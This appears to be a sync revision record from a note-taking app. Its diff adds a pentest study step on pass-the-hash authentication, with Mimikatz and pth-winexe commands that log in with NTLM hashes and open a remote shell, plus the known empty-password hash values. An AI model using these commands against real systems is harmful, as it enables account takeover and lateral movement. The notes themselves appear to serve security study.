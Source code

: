 id: 66319e9ee64e45e8a048457744242c6f
parent_id: fc6385b59e36442dbf97cb616e0ddde9
item_type: 1
item_id: ca065c5dd0874a67afa30248bca1177d
item_updated_time: 1643544486276
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ump::sam\"],[1,\"\\\n\\\n![7b4cbcc81201ed7dc72f474a61c53bbe.png](:/4da9057b1a5c42f0986f67edafcc1941)\\\n\\\n<ins>**Step 3:**</ins> <ins>Use the hash and the pass the hash as a login credential (or Crack the hash)</ins>\\\n\\\nPtH is an attack technique to auth to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear text password.\\\n\\\nOn Mimikatz\\\n\\\n> sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash\\\n\\\nIn Kali\\\n\\\n> pth-winexe -U username%aad3b435b51404eeaad3b435b51404ee:NTLM_Hash [//10.11.0.22](//10.11.0.22) cmd\\\n\\\nUsually funny_hash is aad3b435b51404eeaad3b435b51404ee\\\n\\\n- Means 'no password' in LM Hash\\\n    \\\n- In NTLM, the equivalent is 31d6cfe0d16ae931b73c59d7e0c089c0\"]],\"start1\":578,\"start2\":578,\"length1\":8,\"length2\":693}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T12:10:57.423Z
created_time: 2022-01-30T12:10:57.423Z
type_: 13